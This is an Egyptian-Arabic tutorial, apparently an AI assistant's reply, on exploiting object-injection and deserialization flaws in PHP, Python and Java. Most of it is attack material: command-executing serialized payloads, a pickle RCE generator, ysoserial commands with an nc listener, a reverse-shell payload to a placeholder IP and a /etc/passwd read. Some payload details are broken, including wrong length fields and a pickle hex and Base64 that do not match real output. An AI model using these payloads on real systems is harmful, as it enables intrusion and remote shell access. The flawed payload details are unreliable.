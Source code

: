 تمام، هشرحلك موضوع "Exploiting Object Injection Flaws" بعمق كـ Pentester، مع تركيز على الجانب العملي والأكواد والأوامر، وهحط الخلاصة بالعامية المصرية بعد كل جزء، وبعدين هعدلك كل السيناريوهات الممكنة للاستغلال.

---

### **1. مفهوم Exploiting Object Injection Flaws بعمق**
"Object Injection" أو "Object Deserialization" هي ثغرة بتحصل لما التطبيق بياخد بيانات من المستخدم (زي JSON أو سلسلة serialized) ويحولها لكائنات (Objects) في البرنامج من غير ما يفحصها كويس. لو قدرت تتحكم في البيانات دي، ممكن تخلي السيرفر ينفذ كود خبيث أو يعمل حاجات خطيرة.

- **ازاي بتحصل؟** لما التطبيق بيستخدم دوال زي `unserialize()` في PHP أو `pickle.loads()` في Python على إنبوت من المستخدم من غير تنضيف أو قيود.
- **الهدف:** تنفيذ أوامر (RCE)، تغيير سلوك البرنامج، أو سرقة بيانات.

**مثال بسيط:**
لو موقع بياخد سلسلة serialized زي:
```
O:4:"User":2:{s:4:"name";s:3:"Ali";s:5:"isAdmin";b:0;}
```
وإنت عدلتها لـ:
```
O:4:"User":2:{s:4:"name";s:3:"Ali";s:5:"isAdmin";b:1;}
```
لما السيرفر يحولها لكائن، هيخليك أدمن.

**خلاصة بالعامية:**  
يعني كأنك بتدي السيرفر كيس فيه حاجات، وهو بيفتحه ويستخدمه من غير ما يشوف فيه ايه، فتقدر تحط جواه قنبلة وهو يفجرها بنفسه.

---

### **2. الجانب العملي: ازاي بنستغل الثغرة دي**
هنشرح الطرق الشائعة مع أمثلة عملية:

#### **أ. PHP Object Injection**
في PHP، لو التطبيق بيستخدم `unserialize()` على إنبوت منك، بنقدر نستغل الكلاسات الموجودة عشان ننفذ كود.

- **مثال عملي:**
  لنفرض في كلاس في التطبيق:
  ```
  class Example {
      public $cmd;
      public function __destruct() {
          system($this->cmd);
      }
  }
  ```
  لو الموقع بياخد إنبوت زي `?data=serialized_string`، اعمل سلسلة serialized:
  ```
  O:7:"Example":1:{s:3:"cmd";s:6:"whoami";}
  ```
  شفرها بـ URL Encoding لو لازم:
  ```
  ?data=O%3A7%3A%22Example%22%3A1%3A%7Bs%3A3%3A%22cmd%22%3Bs%3A6%3A%22whoami%22%3B%7D
  ```
  لما السيرفر يفكها، هينفذ الأمر `whoami`.

- **أمر عملي كـ Pentester:**
  جرب سلسلة بسيطة:
  ```
  O:7:"Example":1:{s:3:"cmd";s:2:"id";}
  ```
  لو رجعلك اسم المستخدم أو أي رد، يبقى في Object Injection.

**خلاصة بالعامية:**  
كأنك بتبعت تعليمات للسيرفر في ظرف، وهو بيفتحه وينفذها من غير ما يسأل.

#### **ب. Python Pickle Injection**
في Python، لو التطبيق بيستخدم `pickle.loads()` على إنبوت منك، بنقدر ننفذ كود.

- **مثال عملي:**
  اعمل سكربت Python يولد Pickle Payload:
  ```
  import pickle
  import os

  class Exploit:
      def __reduce__(self):
          return (os.system, ('whoami',))

  payload = pickle.dumps(Exploit())
  print(payload.hex())
  ```
  هيرجعلك بايتات زي:
  ```
  8004952a00000000000863706f730e73797374656d71007428126377686f616d697100725800
  ```
  حط البايتات دي في حقل إنبوت (زي POST Request) بعد ما تشفرها لو لازم.

- **أمر عملي:**
  لو الموقع بياخد Base64، حول البايتات لـ Base64 وحطها:
  ```
  gASVKgAAAAAAAABjAHBvcw5zeXN0ZW0AcHQoAXN3aG9hbWkAcng=
  ```

**خلاصة بالعامية:**  
زي ما تبعت للسيرفر كيس فيه أمر، وهو يفتحه ويعمل اللي إنت عايزه.

#### **ج. Java Deserialization**
في Java، لو التطبيق بيستخدم `ObjectInputStream` على إنبوت، بنستخدم أدوات زي `ysoserial`.

- **مثال عملي:**
  استخدم `ysoserial` عشان تولد Payload:
  ```
  java -jar ysoserial.jar CommonsCollections5 "whoami" > payload.bin
  ```
  ارفع الـ `payload.bin` في حقل إنبوت (زي POST Data)، أو حوله لـ Base64 لو الموقع بياخده كده.

- **أمر عملي:**
  جرب أنواع مختلفة:
  ```
  java -jar ysoserial.jar JRMPClient "your-ip:4444"
  ```
  واستمع على `nc`:
  ```
  nc -lvnp 4444
  ```

**خلاصة بالعامية:**  
كأنك بتبعت صندوق مفخخ للسيرفر، وهو يفتحه ويتنفذ اللي إنت عايزه.

#### **د. التلاعب بالخصائص (Property Manipulation)**
لو مش بتقدر تنفذ كود، ممكن تغير قيم الكائنات عشان تتحكم في التطبيق.

- **مثال عملي:**
  لو الكود بيستخدم كائن زي:
  ```
  class User {
      public $name;
      public $isAdmin = false;
  }
  ```
  اعمل سلسلة:
  ```
  O:4:"User":2:{s:4:"name";s:3:"Ali";s:7:"isAdmin";b:1;}
  ```
  لما تتفك، هتخليك أدمن.

**خلاصة بالعامية:**  
كأنك بتعدل ورقة امتحانك بعد ما تتتصحح وتخلي نفسك ناجح.

---

### **3. سيناريوهات الاستغلال الممكنة كـ Pentester**
دلوقتي هعدلك كل الطرق اللي ممكن تستغل بيها الثغرة دي:

1. **Remote Code Execution (RCE):**
   - تنفيذ أوامر زي `whoami` أو `id` في PHP/Python/Java.

2. **Authentication Bypass:**
   - تغيير قيم زي `isAdmin` لـ `true` عشان تدخل كأدمن.

3. **Reverse Shell:**
   - فتح شيل عكسي باستخدام Payload زي:
   ```
   O:7:"Example":1:{s:3:"cmd";s:20:"nc -e /bin/sh your-ip 4444";}
   ```

4. **File Access:**
   - قراءة ملفات لو الكلاس بيدعم ده:
   ```
   O:7:"Example":1:{s:4:"file";s:11:"/etc/passwd";}
   ```

5. **Denial of Service (DoS):**
   - تحميل السيرفر بحلقات لا نهائية لو الكلاس بيسمح:
   ```
   O:7:"Example":1:{s:4:"loop";b:1;}
   ```

6. **Data Manipulation:**
   - تغيير بيانات داخلية (زي أسعار في متجر أو أذونات).

7. **Chaining with Other Vulns:**
   - دمجها مع SSRF أو LFI عشان توصل لكائنات أكتر.

---

### **نصيحة كـ Pentester:**
- ابحث عن كلمات زي `unserialize`, `pickle`, أو `ObjectInputStream` في السورس لو متاح.
- استخدم أدوات زي `ysoserial` لـ Java أو كود يدوي لـ PHP/Python.
- جرب كل الكلاسات الموجودة في التطبيق (من Error Messages أو Documentation).
- لو Blind، ركز على تغيير السلوك (زي تصبح أدمن) بدل الرد المباشر.

لو عايز تفاصيل أكتر عن أي سيناريو أو أداة، قوللي!
